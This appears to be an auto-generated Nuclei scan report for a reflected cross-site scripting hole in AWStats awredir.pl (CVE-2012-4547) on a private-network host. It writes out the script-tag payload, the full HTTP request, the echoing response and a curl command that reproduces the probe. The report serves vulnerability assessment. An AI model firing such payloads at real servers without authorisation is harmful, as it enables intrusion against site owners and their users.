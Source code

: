 ### AWStats 6.95/7.0 - 'awredir.pl' Cross-Site Scripting (CVE-2012-4547) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2012-4547**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/awstats/awredir.pl?url=%3Cscript%3Ealert(document.domain)%3C/script%3E

**Timestamp**: Wed Jun 8 20:22:07 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | AWStats 6.95/7.0 - 'awredir.pl' Cross-Site Scripting |
| Authors | dhiyaneshdk |
| Tags | cve, cve2020, xss, awstats |
| Severity | medium |
| Description | AWStats is prone to multiple cross-site scripting vulnerabilities because the application fails to properly sanitize user-supplied input. |
| CVE-ID | [CVE-2012-4547](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-4547) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /awstats/awredir.pl?url=%3Cscript%3Ealert(document.domain)%3C/script%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 204
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/awstats/awredir.pl?url=<script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://www.exploit-db.com/exploits/36164
- https://nvd.nist.gov/vuln/detail/cve-2012-4547
- http://awstats.sourceforge.net/docs/awstats_changelog.txt
- http://openwall.com/lists/oss-security/2012/10/29/7

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36' 'http://192.168.198.179:8080/awstats/awredir.pl?url=%3Cscript%3Ealert(document.domain)%3C/script%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)